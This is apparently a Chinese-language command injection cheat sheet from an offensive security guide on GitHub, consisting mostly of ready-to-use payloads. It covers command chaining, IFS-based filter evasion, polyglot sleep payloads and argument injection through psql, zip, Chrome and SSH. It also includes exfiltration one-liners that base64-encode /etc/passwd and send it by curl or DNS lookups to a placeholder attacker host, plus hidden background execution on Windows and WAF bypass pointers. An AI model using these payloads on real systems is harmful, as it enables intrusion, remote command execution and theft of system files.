 # 命令注入漏洞

链接命令

```bash
command1; command2
command1 && command2
command1 || command2
command1 & command2
command1 | command2

# Unix和Windows系统均支持
ls||id; ls ||id; ls|| id; ls || id
ls|id; ls |id; ls| id; ls | id
ls&&id; ls &&id; ls&& id; ls && id
ls&id; ls &id; ls& id; ls & id
ls %0A id

# 仅Unix系统支持
`ls`
$(ls)
ls; id
ls${LS_COLORS:10:1}${IFS}id
```

多语言

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## 1.参数注入

SQL
```bash
psql -o'|命令'
psql -o'|id>/tmp/wolf'
```

ZIP
```bash
zip -T -m -TT '命令 #' 自定义压缩包名.zip 任意现有文件
zip -T -m -TT 'id> /tmp/whoami #' wolf.zip wolf.txt
```

Chrome
```bash
chrome '--gpu-launcher="id>/tmp/foo"'
```

SSH
```bash
ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
```

## 2.数据泄露

常见有效负载
```bash
;`curl%20--data%20%22data=$(base64%20/etc/passwd)%22%20https://攻击者主机`
```

定时攻击
```bash
/usr/bin/time sh -c 'if [ $(whoami | cut -c 1) == "r" ]; then sleep 5; fi'
```

DNS数巨泄露
```bash
for i in $(id) ; do host "$i.DNS主机地址 "; done
$(host $(cat /etc/passwd | head -n1 | sed 's/[ ,]/-/g' | tr -d '.').DNS主机地址)
```

## 3.命令置入后台

类Unix
```bash
python long_running_script.py > /dev/null 2>&1 &
```

Windows
```bash
Start-Process -FilePath "powershell" -ArgumentList "-Command `"& { .\long_running_script.ps1 > $null }`"" -WindowStyle Hidden
start /B cmd /C "long_running_script.bat > NUL 2>&1"
```

## 4.伪终端shell

Commix
```bash
commix --url="WEB应用程序URL " --cookie="Cookie值" --data="请求参数"
键入: y/yes
```

# WAF绕过

[WAF](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/waf.md)
